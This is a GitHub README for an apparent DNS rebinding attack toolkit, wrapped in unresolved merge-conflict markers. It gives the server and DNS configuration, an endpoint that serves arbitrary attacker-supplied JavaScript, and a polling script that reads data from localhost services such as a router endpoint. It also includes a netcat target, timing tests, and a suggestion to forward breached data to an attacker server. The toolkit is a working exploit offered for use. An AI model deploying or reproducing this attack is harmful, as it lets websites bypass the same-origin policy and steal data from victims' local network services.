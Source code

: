 <<<<<<< HEAD
Inspired by [@tavisio](https://bugs.chromium.org/p/project-zero/issues/detail?id=1471&desc=3)

This project is meant to be an All-in-one Toolkit to test further [DNS 
rebinding attacks](https://en.wikipedia.org/wiki/DNS_rebinding) and my take on understanding these kind of attacks. 
It consists of a web server and pseudo DNS server that  only responds to A queries.

The root index of the web server allowes to configure and run the attack with a
rudimentary web gui. See [dnsrebindtool.43z.one](http://dnsrebindtool.43z.one).

A basic nginx config to host the web server
```nginx
server {
  listen 80;
  server_name dnsrebindtool.43z.one;

  location / {
    proxy_pass http://localhost:5000;
  }
}
```

The /attack route of the web server reads the GET parameter `script`
that should provide basic64 encoded javascript and responds with the decoded code
(wraped around a setTimeout) embeded in a regular HTML page.

```bash
% curl "http://dnsrebindtool.43z.one/attack?script=YWxlcnQoMSk=" 
<html>
    <script>

    setTimeout(function(){
      alert(1) 
    }, 3000)

  </script>
</html
```

Within my registrar for the domain 43z.one I setup a NS record for the subdomain
`rebind` to point to the IP where this tool is hosted.
```
ns       A   81.4.124.10
rebind   NS  ns.43z.one
```

The DNS server responds only to A queries in this format

`evcmxfm4g . 81-4-124-10 . 127-0-0-1 .rebind.43z.one`

The first part (subdomain) is just some random id and should be generated for
every attack session (the web gui does this on every reload). Second comes the 
IP the DNS server should respond for the next 2 seconds and third the IP the 
server should respond after that time is passed.

```
$ date && nslookup -type=a evcmxfm4b.81-4-124-10.127-0-0-1.rebind.43z.one 
Fri Feb  2 21:18:20 CET 2018
Server:   8.8.8.8
Address:  8.8.8.8#53

Non-authoritative answer:
Name: evcmxfm4b.81-4-124-10.127-0-0-1.rebind.43z.one
Address: 81.4.124.10

$ date && nslookup -type=a evcmxfm4b.81-4-124-10.127-0-0-1.rebind.43z.one
Fri Feb  2 21:18:23 CET 2018
Server:   8.8.8.8
Address:  8.8.8.8#53

Non-authoritative answer:
Name: evcmxfm4b.81-4-124-10.127-0-0-1.rebind.43z.one
Address: 127.0.0.1
```
The last missing peace is a nginx config for the rebind domains.
Only the /attack route should be passed to the tool others should respond
with an error. This allows to attack other services on port 80 with all routes but
/attack. (like /api/monitoring/stats a endpoint my router exposes)

```
server {
  listen 80;
  server_name *.rebind.43z.one;

  location / {
    return 404;
  }

  location /attack {
    proxy_pass http://localhost:5000/attack;
  }
}
```

DNS Cache Eviction
```javascript
var xhr = new XMLHttpRequest()
xhr.open('GET', 'czg9g2olz.81-4-124-10.127-0-0-1.rebind.43z.one', false)
xhr.send()
// first time the browser sees this domain it queries the dns server
// and gets 81.4.124.10

// sleep for more than 2 sec

xhr.open('GET', 'czg9g2olz.81-4-124-10.127-0-0-1.rebind.43z.one', false)
xhr.send()
// still uses 81.4.124.10 (AND NOT 127.0.0.1)
// NO dns query happened browser used cached IP
```

This is a problem for this kind of attack. In order to work the browser has to
reissue a new dns query to get the second IP. In theory if you just wait long enough
between the requests a new query should happen.
My tests show though there is a faster but more aggressive approach.
It could be very likely this is setup specific. Needs more testing
I used the following script to measure the optimum value for the WAIT variable.
Tested on Chromium 62.0.3202.89 running on Debian buster/sid.

```javascript
var WAIT = 200
var start = Date.now()

var interval = setInterval(function(){
  var xhr = new XMLHttpRequest()
  xhr.open('GET', '//' + $REBIND_DOMAIN, false)

  xhr.send()

  if(xhr.status == 200){
    document.body.innerHTML = (Date.now() - start)/1000
    document.body.innerHTML += xhr.responseText
    clearInterval(interval)
    return
  }
}, WAIT)
```

| WAIT value in ms | requests chrome sends | Time until queries dns again |
| --- | --- | --- |
| 0  |700|60|
| 10 |700|60|
| 100|600|63|
| 120|500|63|
| 150|400|63|
| 180|400|75|
| 200|300|63|
| 220|300|69|
| 250|300|78|
| 280|300|87|
| 300|200|63|
| 320|200|67|
| 340|200|71|
| 360|200|75|
| 380|200|79|
| 400|200|83|
| 1000|100|103|

I started a new repo just to explore this [dns cache eviction tester](https://github.com/h43z/dns-cache-eviction)

Putting it all together and test it.
```bash
echo -e "HTTP/1.1 200 OK\n\n TOPSECRET" | sudo nc -lvp 80 -q1 127.0.0.1
```

This netcat instance serves some content I would like to get access to.
I keep the default rebind domain  
`$RANDOM$.81-4-124-10.127-0-0-1.rebind.43z.one`
and default script 

```javascript
var start = Date.now()

var interval = setInterval(function(){
  var xhr = new XMLHttpRequest()
  xhr.open('GET', '//' + $REBIND_DOMAIN, false)

  xhr.send()

  if(xhr.status == 200){
    document.body.innerHTML = (Date.now() - start)/1000
    document.body.innerHTML += xhr.responseText
    clearInterval(interval)
    return
  }
}, 200)

```
on [dnsrebindtool.43z.one](http://dnsrebindtool.43z.one) and hit the Attack button.
Open the dev tools network tab to see what is happening in the background.
For me after about 60 seconds fills up with the string `TOPSECRET` and the time
it took. DNS rebinding circumvented [SOP](https://en.wikipedia.org/wiki/Same-origin_policy).
To get the breached data out of the iframe one could use [Window.PostMessage()](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage) or include code that forwards the data
to another attacker server within the script itself.
=======
# DnsRebinding
>>>>>>> b38775806af49d923c55918ee05566fbb1728e98
